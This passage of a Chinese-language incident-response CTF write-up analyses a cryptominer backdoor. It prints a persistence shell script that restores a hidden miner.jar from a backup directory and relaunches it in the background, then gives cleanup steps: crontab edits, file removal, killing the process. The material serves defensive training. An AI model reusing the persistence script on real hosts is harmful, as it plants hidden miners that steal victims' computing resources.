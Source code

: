 ```

if [ ! -f &#34;$DEST_FILE&#34; ]; then
echo&#34;[$(date)] Miner file ($DEST_FILE) is missing. Restoring from backup...&#34; >> &#34;$LOG_FILE&#34;

cp &#34;$SOURCE_FILE&#34;&#34;$DEST_FILE&#34;
chmod +x &#34;$DEST_FILE&#34;
fi

if [ -f &#34;$DEST_FILE&#34; ]; then
nohup java -jar &#34;$DEST_FILE&#34; > /dev/null 2>&1 &  
echo&#34;[$(date)] Miner process restarted with PID $!.&#34; >> &#34;$LOG_FILE&#34;
else

echo&#34;[$(date)] CRITICAL: Could not restore miner file from backup. Cannot start.&#34; >> &#34;$LOG_FILE&#34;
fi

```

  
    审计代码可以看到，还有个备份的隐藏挖矿脚本，在：/**usr/share/.miner/miner.jar**  
，然后PROCESS_NAME="java -jar $DEST_FILE"会运行相关脚本，后面的程序逻辑  
1. 先检测/tmp/miner.jar是否存在且运行  
  
1. 如果存在则exit退出  
  
1. 如果不存在则将备份目录下的miner.jar文件复制到/tmp/下，然后运行：**nohup java -jar "$DEST_FILE" > /dev/null 2>&1 &**  
  
    所以最终这个后门程序的路径为：/**usr/share/.per/persistence.sh**  
#### 清除掉后门挖矿程序，在/var/flag/3/flag下查看提交flag  
  
    清除掉所有挖矿程序，不只是后门哦，也就是原有的已**被恢复的挖矿程序**  
以及**进程**  
和**定时任务**  
以及**定时任务中的脚本**  
和**隐藏备份的挖矿脚本**  

```
crontab -e //编辑计划任务清除掉计划任务  
rm /usr/share/.per/persistence.sh //删除掉后门脚本程序  
rm /usr/share/.miner/miner.jarh //删除备份挖矿程序  
rm /tmp/miner.jar //删除已恢复的挖矿脚本  
kill -9 (PID) //杀掉挖矿进程

```

  
![fig:](https://mmbiz.qpic.cn/mmbiz_jpg/icdGEWOnYLpOnzwgNQBx5nNnTM5GGCicn0PU80zsjWeOzAHwmSTtp5kB7wpzgwOfXwXl3go55ic58ZHaqOElrKjJA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
    等待一分钟过后，CPU和进程都恢复正常，查看/**var/flag/3/flag**  
文件获取到flag  
  
![fig:](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpOnzwgNQBx5nNnTM5GGCicn0iamcXZD4TdvQpBkSr3w0U0FEARy0ZZIibTMmupG5hiaLPg3ZaOVmhKcSg/640?wx_fmt=png&from=appmsg "")  
  